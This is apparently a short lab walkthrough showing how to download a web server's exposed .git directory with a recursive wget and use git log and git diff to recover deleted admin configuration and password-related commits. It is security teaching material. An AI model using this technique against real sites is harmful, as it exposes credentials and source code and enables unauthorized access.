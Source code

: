    ```plaintext
    Index of /.git
    Name            Size
    <branches>
    description     73B
    <hooks>
    <info>
    <refs>
    HEAD            23B
    config          152B
    <objects>
    index           225B
    COMMIT_EDITMSG  34B
    <logs>
    ```

    - Download the folder content.

    ```bash
    wget --recursive https://<lab_url>/.git
    ```

    - Analyze the files via **git**.

    ```bash
    cd <lab_url>

    git status
        ...
        deleted:    admin.conf
        deleted:    admin_panel.php
        ...

    git log
        commit 0db732bd771a601521fbaa6c681a7b77a29421ef (HEAD -> master)
        ...
        Remove admin password from config

        commit 378b8d2a56fcd551df0c62c36918c51398f5a9d8
        ...
        Add skeleton admin panel

    git diff
        diff --git a/admin.conf b/admin.conf
        deleted file mode 100644
        index 21d23f1..0000000
        --- a/admin.conf
        +++ /dev/null
        @@ -1 +0,0 @@
        -ADMIN_PASSWORD=env('ADMIN_PASSWORD')
        diff --git a/admin_panel.php b/admin_panel.php
        deleted file mode 100644
        index 8944e3b..0000000
        --- a/admin_panel.php
        +++ /dev/null
        @@ -1 +0,0 @@
        -<?php echo 'TODO: build an amazing admin panel, but remember to check the password!'; ?>
        \ No newline at end of file
    ```
